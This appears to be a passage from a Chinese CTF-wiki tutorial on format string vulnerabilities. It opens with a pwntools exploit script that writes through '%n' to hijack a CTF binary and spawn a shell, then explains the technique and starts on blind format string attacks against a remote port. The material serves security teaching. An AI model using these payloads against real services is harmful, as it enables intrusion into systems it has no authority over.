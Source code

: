 ```python
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)+12
log.success("ebp: "+hex(system))
log.success("heap: "+hex(heap_addr))

part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

#payload=fmtstr_payload(6,{ebp_addr:heap_addr})
##print payload
createcontact(io,'3333', '123456789', '300', payload)
printcontact(io)
io.recvuntil('Description: ')
io.recvuntil('Description: ')
##gdb.attach(sh)
log.success("get shell")
io.recvuntil('>>> ')
##get shell
io.sendline('5')
io.interactive()
```

需要注意的是，这样并不能稳定得到 shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

为什么需要打印这么多呢？因为格式化字符串不在栈上，所以就算我们得到了需要更改的ebp的地址，也没有办法去把这个地址写到栈上，利用$符号去定位他；因为没有办法定位，所以没有办法用l\ll等方式去写这个地址，所以只能打印很多。

## 格式化字符串盲打

### 原理

所谓格式化字符串盲打指的是只给出可交互的 ip 地址与端口，不给出对应的 binary 文件来让我们进行 pwn，其实这个和 BROP 差不多，不过 BROP 利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

- 确定程序的位数
- 确定漏洞位置 
- 利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

### 例子1-泄露栈

源码和部署文件均放在了对应的文件夹 [fmt_blind_stack](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/fmtstr/blind_fmt_stack) 中。

#### 确定程序位数

我们随便输入了 %p，程序回显如下信息

```shell
➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
%p
0x7ffd4799beb0
G�flag is on the stack%                          
```

